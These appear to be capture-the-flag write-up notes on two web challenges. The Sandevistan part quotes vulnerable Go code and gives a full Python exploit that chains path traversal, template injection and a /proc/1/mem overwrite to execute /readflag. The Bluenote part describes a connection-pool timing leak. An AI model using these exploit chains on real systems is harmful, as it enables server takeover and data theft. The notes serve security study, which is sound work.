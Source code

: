 ## Sandevistan
Giving is a Go app and goal is to execute /redflag in the server

### Concerned source code snippets
```
func (s *Server) cwHandlePost(w http.ResponseWriter, r *http.Request){
    err := r.ParseForm()
    if err != nil {
        http.Error(w, err.Error(), http.StatusBadRequest)
        return
    }
    ue := checkForm(r)
 
    // The rest is left out because it's not important
}

func checkForm(r *http.Request) *models.UserError {
    var ue *models.UserError
    ctx := r.Context()
    username, exists := r.Form["username"]
    if !exists {
        ue = &models.UserError{
            Value: "NOUSER",
            Filename: "nouser",
            Ctx: ctx,
        }
        return ue
    }
    ctx = context.WithValue(ctx, "username", username[len(username)-1])
    cwName, exists := r.Form["name"]
    if !exists {
        ue = utils.ErrorFactory(ctx, "CyberWare name doesn't exist", username[len(username)-1])
        return ue
    }
    ue = utils.AlphaNumCheck(ctx, cwName[0])
    return ue
}

func AlphaNumCheck(ctx context.Context, t string) *models.UserError {
    if !regexp.MustCompile(`^[a-zA-Z0-9]*$`).MatchString(t) {
        v := fmt.Sprintf("ERROR! Invalid Value: %s\n", t)
        username := ctx.Value("username")
        regexErr := ErrorFactory(ctx, v, username.(string))
        return regexErr
    }
    return nil
}

func ErrorFactory(ctx context.Context, v string, f string) *models.UserError {
    filename := "errorlog/" + f
    UErr := &models.UserError{
        v,
        f,
        ctx,
    }
    file, _ := os.OpenFile(filename, os.O_RDWR|os.O_CREATE, 0644)
    defer file.Close()

    file.WriteString(v)
    return UErr
}

func (s *Server) handleUserGet(w http.ResponseWriter, r *http.Request) {
    u, err := s.GetUser(r.FormValue("username"))
    if err != nil {
        http.Error(w, "Username not found", http.StatusNotFound)
        return
    }

    if u.Name == "NOUSER" {
        http.Redirect(w, r, "/", http.StatusFound)
    }
    utils.RenderTemplate(w, "/tmpl/user", u)
}

func (u *User) SerializeErrors(data string, index int, offset int64) error {
  fname := u.Errors[index]

    if fname == nil {
        return errors.New("Error not found")
    }
 
    f, err := os.OpenFile(fname.Filename, os.O_RDWR, 0)
    if err != nil {
        return errors.New("File not found")
    }
    defer f.Close()

    _, ferr := f.WriteAt([]byte(data), offset)
    if ferr != nil {
        return errors.New("File error writing")
    }

    return nil
}

func (u *User) UserHealthcheck() ([]byte, error) {
    cmd := exec.Command("/bin/true")  
    output, err := cmd.CombinedOutput()
    if err != nil {
        return nil, errors.New("error in healthcheck")
        panic(err)
    }
    return output, nil

}
```

- The ErrorFactory function has a path traversal vulnerability. You can overwrite any file using ErrorFactory through POST to /cyberware
- Overwrite /tmpl/user.html to do SSTI by sending a POST request with the parameter username=../tmpl/user.html&name=(payload) because it does not check if the user with the given username exists
- The handleUserGet function evaluates the template tmpl/user.html with the user object.
- Run SerializedErrors to overwrite /bin/true in /proc/1/mem
- Run UserHealthcheck to get the flag
```
import requests
# URL = "http://sandevistan.chal.perfect.blue:29005/"
URL = "http://localhost:1338/"

username = "user"

s = requests.session()
r = s.post(URL + "user", data={
    "username": username
})

r = s.post(URL + "cyberware", data={
    "username": "../tmpl/user.html",
    "name": '{{ .NewError "foo" "/proc/1/mem"  }} {{ .SerializeErrors "/readflag" 0 %d }} {{ .UserHealthcheck }}' % 0x93b6bb
})
r = s.get(URL + "user", params={
    "username": username
})
print(r.text)
```

ALTERNATE SOLUTION
![image](https://github.com/user-attachments/assets/a602ab0e-4322-4d83-899a-8a1c24073865)


## Bluenote
Couldnt find the actual chall but the writeups were something new i read
```
intended solution for bluenote was connection pool abuse yeah
if you block all the sockets, you can let individual blocks of requests go through if you unblock and reblock very quickly
so you block all the sockets, make your search guess, reblock quickly to let the page request through. so the search request is made, and now youre blocking the pool again 
then if your search is right, the page makes a request to dompurify, which should be blocked, and if the search is not right, there is no request 
then you make a request with lower priority than dompurify (i used script async), but higher priority than the background socket blocking fetches
then you allow one request through, if your script async went through there was nothing higher priority. if your script request did not go through, there mustve been something higher priority, meaning dompurify was loaded, meaning your search worked
```
